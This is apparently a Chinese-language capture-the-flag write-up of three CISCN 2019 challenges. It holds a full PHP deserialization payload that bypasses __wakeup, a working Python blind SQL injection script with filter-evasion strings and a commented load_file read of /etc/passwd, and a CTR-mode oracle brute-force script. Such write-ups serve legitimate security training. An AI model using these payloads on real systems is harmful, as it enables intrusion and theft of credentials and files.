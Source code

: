 ```yaml
---
title: Ciscn 2019 初赛 Writeup
date: 2019-04-25 00:23:14
tags: [writeup]
---
```


输出了两题 web + 一题 crypto, 太菜了 QAQ  
因为也是要交上去的, 就写的比较简单了.  

<!--more-->

## JustSoso

根据html内的提示, `php://filter/read=convert.base64-encode/resource=index.php`  
和 `php://filter/read=convert.base64-encode/resource=hint.php` 得到源码,  
之后代码审计.  

1. 通过 ///index.php 使 parse_url 返回 false, 绕过 payload 内不能有 flag 的限制
2. 通过引用的方式, 绕过 $this->token === $this->token_flag
3. 将序列化后的字符串 `"Handle":1` 的改为 2, 使其反序列时不调用 __wakeup 魔术方法, 让 handler 正常调用

最后 payload:  
`http://fe95bbad6a4f406cbd981c3496fb83f2be3784a02dfb46d1.changame.ichunqiu.com///index.php?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226754e06e46dfa419d5afe3c9781cecad%22%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D`


## 全宇宙最简单的SQL

尝试 `admin'asdasd` 返回数据库操作失败, 说明存在注入漏洞,  
尝试盲注但是发现 `benchmark` 和 `sleep` 全部被替换为 `QwQ`, 随即尝试布尔注入,  
发现 `if` 和 `case` 也被过滤. 最后用短路求值的方式代替 if, 并用 `exp(710)` 产生错误,  
如果前面语句返回 true, 将返回数据库操作失败, 如果前面语句返回 false, 返回账号登录失败. 且表名为常见名称 user,  
列名通过虚表的方式绕过.

```python
import requests
import string
from tqdm import tqdm
# url = "http://0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com/"
url = "http://106.119.182.216/"
# username=asd'/**/and/**/1=(SELECT/**/database()/**/like/**/'z')/**/and/**/exp(710)#&password=admin
sess = requests.session()
sess.headers["Host"] = "0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com"
# database: ctf
# table: user
# 2 col
# /fll1llag_h3r3 2,F1AG@1s-at_/fll1llag_h3r3
# f"asd'/**/and/**/1=(SELECT/**/version()/**/like/**/'{i}')/**/and/**/exp(710)#",
# asd'/**/and/**/1=(select(SELECT/**/group_concat(`1`)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'a%')/**/and/**/exp(710)#
# f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
# f"asd'/**/and/**/1=(select/**/load_file(0x2f6574632f706173737764)/**/like/**/'{tmp}')/**/and/**/exp(710)#",
#table = string.printable[:-5]
#table = table.replace("%", '')
#table = table.replace("'", "")
#table = table.replace("\\", "")
table = "0123456789ABCDEF"
curr = ''
for _ in range(999):
    for i in tqdm(table):
        tmp = curr + i + "%"
        data = {
            "username": f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
            "password": "admin"
        }
        success = False
        while not success:
            try:
                res = sess.post(url, data, timeout=2)
                success = True
            except Exception:
                pass
        res = res.content
        res = res.decode('utf-8')
        if "数据库操作" in res:
            curr += i
            print(curr)
            break
        if i == table[-1]:
            raise Exception
```
![](https://i.loli.net/2019/04/25/5cc08eb862dd6.png)

最后得到 admin 的密码为 `F1AG@1s-at_/fll1llag_h3r3`, 尝试直接 load_file读取失败.  
应该是没有权限, 随即在web上尝试登录admin, 发现是 mysql 客户端连接并执行语句的服务.  
猜测有客户端读任意文件的漏洞, 可以直接拿到flag文件.

![](https://i.loli.net/2019/04/25/5cc08eb884ce6.png)
![](https://i.loli.net/2019/04/25/5cc08eb889b62.png)


## warmup

题目采用的是 CTR 模式, 而且每次加密采用同一计数器,  
只要第一次发送空, 之后每次爆破一位比对是否与第一次对应位置的值相同即可.  

```python
from remoteCLI import CLI
from binascii import unhexlify
import string
from tqdm import tqdm

result = r'result>([0-9a-f]{0,})'

cli = CLI()
cli.connect("fc32f84bc46ac22d97e5f876e3100922.kr-lab.com", 12345)
cli.sendLine('')
res = cli.recvUntilFind(result)[0]
flag = unhexlify(res)
flagLen = len(flag)
table = string.printable[:-5]
curr = ''
for seq in range(flagLen):
    for i in tqdm(table):
        cli.sendLine(curr + i)
        res = cli.recvUntilFind(result)[0]
        res = unhexlify(res)
        if res[seq] == flag[seq]:
            curr += i
            print(curr)
            break
```